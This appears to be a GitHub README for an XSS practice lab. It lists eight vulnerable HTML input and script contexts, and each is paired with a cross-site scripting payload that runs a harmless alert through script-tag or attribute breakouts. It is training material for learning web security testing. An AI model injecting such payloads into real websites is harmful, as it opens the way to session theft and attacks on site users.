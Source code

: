 # XSS-Practice-Lab


### Lab Link : http://leettime.net/xsslab1/chalg1.php

### Author : Sheikh Rishad

<XSS Practice Lab/>
#
#
## Challenge_1:

    <input type="text" name="name"></input>

payload :   

    <script>alert(1)</script>




## Challenge_2:

     <input type="text" name="name" value=hack></input>

payload :  

     ><script>alert(document.URL)</script>


## Challenge_3:

     <input type="text" name="name" value="hack"></input>

payload :  

    "><script>alert(document.URL)</script>


## Challenge_4:

     <input type="text" name="name" value='hack'></input>

payload :   
 
    '><script>alert(document.URL)</script>


## Challenge_5:

    <center><script>var search_str="hack";</script>

payload :   
  
    </script><script>alert(document.URL)</script>


## Challenge_6:

     <center><script>var search_str='hack';</script>

payload : 
  
    </script><script>alert(document.URL)</script>


## Challenge_7:

     <input type="text" name="name" value='<scriptalert("hack")</script'></input>

payload :   
 
    'onmouseover='alert(document.URL);


## Challenge_8:

    <input type="text" name="name" value='&gt;&lt;script&gt;alert(1)&lt;/script&gt;'></input>

payload :   
       
    "onmouseover="alert(document.URL);
